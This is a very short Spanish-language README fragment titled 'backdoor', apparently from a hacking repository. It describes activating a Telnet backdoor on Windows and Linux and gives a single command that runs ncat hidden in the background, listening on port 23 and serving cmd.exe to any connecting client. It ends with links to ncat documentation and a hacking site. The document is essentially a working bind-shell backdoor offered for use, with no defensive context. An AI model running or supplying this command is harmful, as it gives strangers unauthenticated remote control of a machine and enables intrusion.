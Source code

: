 ## backdoor

Activa puerta trasera TelnetD para Windows y Linux

start /B ncat -l -t -p 23 -e cmd.exe 

https://nmap.org/ncat/

https://ss64.com/bash/nc.html

http://www.hackingyseguridad.com/

